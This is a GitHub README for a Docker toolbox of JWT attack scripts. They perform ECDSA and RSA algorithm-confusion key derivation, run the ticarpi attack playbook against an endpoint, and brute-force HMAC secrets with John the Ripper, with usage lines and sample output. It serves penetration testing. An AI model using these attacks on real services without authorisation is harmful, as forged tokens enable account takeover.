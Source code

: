 # 💻 JWT toolbox

[![Build and deploy the toolbox image](https://github.com/righettod/toolbox-jwt/actions/workflows/build_docker_image.yml/badge.svg?branch=main)](https://github.com/righettod/toolbox-jwt/actions/workflows/build_docker_image.yml) ![MadeWitVSCode](https://img.shields.io/static/v1?label=Made%20with&message=VisualStudio%20Code&color=blue&?style=for-the-badge&logo=visualstudio) ![MadeWithDocker](https://img.shields.io/static/v1?label=Made%20with&message=Docker&color=blue&?style=for-the-badge&logo=docker) ![AutomatedWith](https://img.shields.io/static/v1?label=Automated%20with&message=GitHub%20Actions&color=blue&?style=for-the-badge&logo=github)

## 🎯 Description

The goal of this image is to provide a ready-to-use toolbox with different scripts having for the objective to perform different kinds of attacks against [JWT](https://jwt.io/) tokens.

💡 Indeed, some existing scripts require specific runtime/package/etc. so the goal is to have a quick ready-to-use sandbox to execute them to obtain crafted JWT token.

## 📦 Build

Use the following set of command to build the docker image of the toolbox:

```bash
git clone https://github.com/righettod/toolbox-jwt.git
cd toolbox-jwt
docker build . -t righettod/toolbox-jwt
```

💡 The image is build every week and pushed to the GitHub image repository. You can retrieve it with the following command:

`docker pull ghcr.io/righettod/toolbox-jwt:main`

## 🤔 Usage

Use the following command to create a container of the toolbox:

```bash
docker run --rm -it ghcr.io/righettod/toolbox-jwt:main /bin/bash
# From here, use one of the provided script...
```

## 📋 Content

### Script 'generate-jwt-ecdsa-derivated-public-keys.rb'

> **Note**: Author of the script is the [PentesterLab](https://blog.pentesterlab.com/exploring-algorithm-confusion-attacks-on-jwt-exploiting-ecdsa-23f7ff83390f) team ❤.

Script to generate derivated **ECDSA** public keys from a JWT ECDSA signed token. To goal is to test exposure to algorithm confusion attacks on token using ECDSA key pair.

💻 Usage:

`ruby generate-jwt-ecdsa-derivated-public-keys.rb "JWT_ECDSA_SIGNED_TOKEN"`

💻 Example:

```bash
# Once in the bash of the toolbox
ruby generate-jwt-ecdsa-derivated-public-keys.rb "eyJ0eXA..."
[+] Key:
-----BEGIN PUBLIC KEY-----
MFkwEwYHKoZIzj0CAQYIKoZIzj0DAQcDQgAE6mWiWnAqBhDvAWwyiM7+STTq0Csi
spjd61v7AtpvgKMyOHVMxMQ6yyrjVKp/syHteGSeltXdfEQ0Dlv0tkZQqg==
-----END PUBLIC KEY-----
[+] Key:
-----BEGIN PUBLIC KEY-----
MFkwEwYHKoZIzj0CAQYIKoZIzj0DAQcDQgAE7zuf4prcB/qW4AL7d20LSb99Zwwl
hRSCnHTrpnHUnXoqZVAGwCNpYSJf1rpjZQocwwEL016+OuspiQ67N9EDoA==
-----END PUBLIC KEY-----
```

### Script 'generate-jwt-rsa-derivated-public-keys.sh'

> **Note**: Author of the tool used by the script is the [Silent Signal](https://blog.silentsignal.eu/2021/02/08/abusing-jwt-public-keys-without-the-public-key/) team ❤.

Script to generate derivated **RSA** public keys from a JWT RSA signed token. To goal is to test exposure to algorithm confusion attacks on token using RSA key pair.

💻 Usage:

`bash generate-jwt-rsa-derivated-public-keys.sh "JWT_RSA_SIGNED_TOKEN_1" "JWT_RSA_SIGNED_TOKEN_2"`

💻 Example:

```bash
# Once in the bash of the toolbox
bash generate-jwt-rsa-derivated-public-keys.sh "eyJ0eXA..." "eyJ0eXA..."
[*] GCD:  0x6b
[*] GCD:  0xd7b8aa3...
[+] Found n with multiplier 1  :
 0xd7b8aa...
[+] Written to d7b8aa3fc15ccb45_65537_x509.pem
[+] Tampered JWT: b'eyJ0eXAiOiJ...'
[+] Written to d7b8aa3fc15ccb45_65537_pkcs1.pem
[+] Tampered JWT: b'eyJ0eXAiOiH...'
==============================================================
Here are your JWT's once again for your copypasting pleasure
==============================================================
eyJ0eXAiOiJKV1Qi...
eyJ0eXAiOiJKV1Qj...
```

### Script 'apply-jwt-ticarpi-attack-playbook.sh'

Script to test an web service against the [TICARPI attack playbook](https://github.com/ticarpi/jwt_tool/wiki/Attack-Methodology).

💻 Usage:

`bash apply-jwt-ticarpi-attack-playbook.sh "ENDPOINT_FULL_URL" "CANARY_WORD" "VALID_JWT_TOKEN"`

📍 The **canary word** is a word that must be present in the HTTP response when the JWT token is accepted (case-sensitive).

💬 The JWT token is added into this header `Authorization: Bearer $TOKEN`. Edit the script to change its location if needed.

💡 Pipe the command above with ` | grep --color=always -F "Response Code: 200"` to display only requests for which the JWT token was accepted.

💻 Example:

```bash
# Once in the bash of the toolbox
bash apply-jwt-ticarpi-attack-playbook.sh "https://righettod.eu/api/profile" "righettod" "eyJ0eXA..."
...
```

### Script 'apply-jwt-secret-brute-force.sh'

> **Note**: [John The Ripper](https://github.com/openwall/john) is used with the [RockYou](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou.txt.tar.gz) dictionary and default token format is **HMAC-SHA256**.

Script to try to recover the secret of a JWT token signed with a HMAC algorithm.

💻 Usage:

`bash apply-jwt-secret-brute-force.sh "JWT_HMAC_SIGNED_TOKEN"`

💻 Example:

```bash
# Once in the bash of the toolbox
bash apply-jwt-secret-brute-force.sh 'eyJhbGci...'
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 12 OpenMP threads
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
secret           (?)
1g 0:00:00:00 DONE (2023-05-18 15:20) 33.33g/s 819200p/s 819200c/s 819200C/s 123456..280690
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

## 🤝 Sources & credits

* <https://blog.pentesterlab.com/exploring-algorithm-confusion-attacks-on-jwt-exploiting-ecdsa-23f7ff83390f>
* <https://github.com/silentsignal/rsa_sign2n>
* <https://blog.silentsignal.eu/2021/02/08/abusing-jwt-public-keys-without-the-public-key/>
* <https://github.com/ticarpi/jwt_tool>
* <https://github.com/ticarpi/jwt_tool/wiki>
* <https://github.com/Sjord/jwtcrack>
* <https://www.openwall.com/john/>
* <https://github.com/openwall/john>
* <https://gist.github.com/pich4ya/f76280b7a6af67a9adf740f3ee547689>
* <https://github.com/danielmiessler/SecLists/tree/master/Passwords/Leaked-Databases>
* <https://www.javainuse.com/jwtgenerator>
* <https://jwt.io/>
